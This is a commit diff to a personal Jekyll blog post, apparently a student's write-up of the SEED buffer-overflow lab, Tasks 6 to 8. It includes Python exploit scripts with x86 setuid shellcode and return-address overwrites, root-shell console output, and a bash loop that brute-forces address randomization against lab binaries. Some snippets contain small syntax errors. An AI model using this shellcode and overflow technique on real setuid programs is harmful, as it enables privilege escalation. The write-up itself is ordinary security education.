

Before and after one commit to XingjianXuanyuan/XingjianXuanyuan.github.io, a Jekyll site: the page built from _posts/2021-11-17-SEED-buffer-overflow.md, in a window 1280 px wide and 1400 px high, scrolled down 19096 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; formulas are drawn with MathJax 3; some of the changed text lies outside the part shown.

Commit message:
finish SEED buffer-overflow

````diff
--- a/_posts/2021-11-17-SEED-buffer-overflow.md
+++ b/_posts/2021-11-17-SEED-buffer-overflow.md
@@ -571,7 +571,7 @@
 0x7fffffffdc10:	0x00007fffffffe020
 ```
 
-To better understand the stack frame layout in x86-64 architecture, I went through AMD64 ABI 1.0 published on December 22, 2018 and found something really helpful:
+To better understand the stack frame layout in x86-64 architecture, I went through [AMD64 ABI 1.0](https://raw.githubusercontent.com/wiki/hjl-tools/x86-psABI/x86-64-psABI-1.0.pdf) published on December 22, 2018 and found something really helpful:
 
 > Each function has a frame on the run-time stack. This stack grows downwards from high addresses ... The value <code>%rsp + 8</code> is always a multiple of $16$ ($32$ or $64$) when control is transferred to the function entry point. The stack pointer, <code>%rsp</code>, always points to the end of the latest allocated stack frame. The $128$-byte area beyond the location pointed to by <code>%rsp</code> is considered to be reserved and shall not be modified by signal or interrupt handlers. Therefore, functions may use this area for temporary data that is not needed across function calls. In particular, leaf functions may use this area for their entire stack frame, rather than adjusting the stack pointer in the prologue and epilogue. This area is known as the *red zone* ... After the argument values have been computed, they are placed either in registers or pushed on the stack ... The size of each argument gets rounded up to eight bytes (therefore the stack will always be eight-byte aligned).
 
@@ -613,7 +613,175 @@
 
 ## Task 6: Launching Attack on $64$-bit Program (Level 4)
 
+Using the similar technique as in [Level 2](#task-4-launching-attack-without-knowing-buffer-size-level-2), I deployed the following <code>exploit.py</code> file:
 
+```python
+content = bytearray(0x90 for i in range(517))
+
+start = 517 - len(shellcode)
+content[start:start + len(shellcode)] = shellcode
+
+ret    = 0xffffe258 + 120
+L = 8
+addr = (ret).to_bytes(L, byteorder='little')
+content[0 : 15] = addr * 2
+
+with open('badfile', 'wb') as f:
+  f.write(content)
+```
+
+Note that <code>L</code> is switched to $8$ and the designated return address will be taking $16$ bytes (i.e., the size of two words), considering that the buffer size is $10$.
+
+As a result, level 4 is solved:
+
+```console
+~/Documents/BufferSetUID/code$ vim exploit.py
+~/Documents/BufferSetUID/code$ ./exploit.py
+~/Documents/BufferSetUID/code$ ./stack-L4
+Input size: 517
+==== Returned Properly ====
+```
+
+## Task 7: Defeating <code>dash</code>'s Countermeasure
+
+To begin with, let <code>/bin/sh</code> point back to <code>/bin/dash</code>:
+
+```console
+$ sudo ln -sf /bin/dash /bin/sh
+```
+
+Compile and run <code>call_shellcode.c</code> with the <code>setuid()</code> system call:
+
+```console
+~Documents/BufferSetUID/shellcode$ make setuid
+gcc -m32 -z execstack -o a32.out call_shellcode.c
+gcc -z execstack -o a64.out call_shellcode.c
+sudo chown root a32.out a64.out
+sudo chmod 4755 a32.out a64.out
+~Documents/BufferSetUID/shellcode$ ./a32.out
+# id
+uid=0(root) gid=1001(seed) groups=1001(seed),120(docker)
+# echo On the Bonnie Bonnie Banks of Loch Lomond
+On the Bonnie Bonnie Banks of Loch Lomond
+# exit
+~Documents/BufferSetUID/shellcode$ ./a64.out
+# id
+uid=0(root) gid=1001(seed) groups=1001(seed),120(docker)
+# whoami
+root
+# exit
+```
+
+Without the <code>setuid()</code> system call:
+
+```console
+~Documents/BufferSetUID/shellcode$ gcc -z execstack -o call_shellcode call_shellcode.c
+~Documents/BufferSetUID/shellcode$ ./call_shellcode
+$ whoami
+seed
+$ echo On the Bonnie Bonnie Banks of Loch Lomond
+On the Bonnie Bonnie Banks of Loch Lomond
+$ exit
+~Documents/BufferSetUID/shellcode$ ./a32.out
+$ whoami
+seed
+$ echo On the steep steep side of Ben Lomond
+On the steep steep side of Ben Lomond
+$ exit
+~Documents/BufferSetUID/shellcode$ ./a64.out
+$ whoami
+seed
+$ echo Ye'll take the high road and I'll take the low road
+Yell take the high road and Ill take the low road
+$ exit
+```
+
+We can tell according to the different results from the <code>whoami</code> command that with the <code>setuid()</code> system call real UID is changed to zero and the program is owned by root.
+
+Based on this knowledge, to redo [Task 3](#task-3-launching-attack-on-32-bit-program-level-1), I modified the shellcode block of <code>exploit.py</code>:
+
+```python
+!/usr/bin/python3
+import sys
+
+# Replace the content with the actual shellcode
+shellcode= (
+  "\x31\xc0"
+  "\x31\xdb"
+  "\xb0\xd5"
+  "\xcd\x80"
+  "\x31\xc0"
+  "\x50"
+  "\x68""//sh"
+  "\x68""/bin"
+  "\x89\xe3"
+  "\x50"
+  "\x53"
+  "\x89\xe1"
+  "\x99"
+  "\xb0\x0b"
+  "\xcd\x80"
+).encode('latin-1')
+
+# Fill the content with NOP's
+content = bytearray(0x90 for i in range(517))
+
+##################################################################
+# Put the shellcode somewhere in the payload
+start = 517 - len(shellcode)               # Change this number
+content[start:start + len(shellcode)] = shellcode
+
+# Decide the return address value
+# and put it somewhere in the payload
+ret    = 0xffffcdc8 + 120          # Change this number
+offset = 112              # Change this number
+
+L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
+content[offset:offset + L] = (ret).to_bytes(L, byteorder='little')
+##################################################################
+
+# Write the content to a file
+with open('badfile', 'wb') as f:
+  f.write(content)
+```
+
+Running this code is able to get the root shell:
+
+```console
+~/Documents/BufferSetUID/code$ vim exploit.py
+~/Documents/BufferSetUID/code$ ./exploit.py
+~/Documents/BufferSetUID/code$ ./stack-L1
+Input size: 517
+# id
+uid=0(root) gid=1001(seed) groups=1001(seed),120(docker)
+```
+
+## Task 8: Defeating Address Randomization
+
+By resetting the environment
+
+```console
+$ sudo /sbin/sysctl -w kernel.randomize_va_space=2
+```
+
+address space including the positions of the stack, virtual dynamic shared object page, shared memory regions, and data segments is randomized, which is the most secure system setting.
+
+Use the following shell script to brute-force the attack:
+
+```console
+#!/bin/bash
+SECONDS=0
+value=0
+while true; do
+    value=$(( $value + 1 ))
+    duration=$SECONDS
+    min = $(( $duration / 60 ))
+    sec = $(( $duration % 60 ))
+    echo "$min minutes and $sec seconds elapsed."
+    echo "The program has been running $value times so far."
+    ./stack-L1
+done
+```
 
 ## Notes
 
````
Also changed, not shown: other parts of _posts/2021-11-17-SEED-buffer-overflow.md (+1 -1 lines), 2 other files.
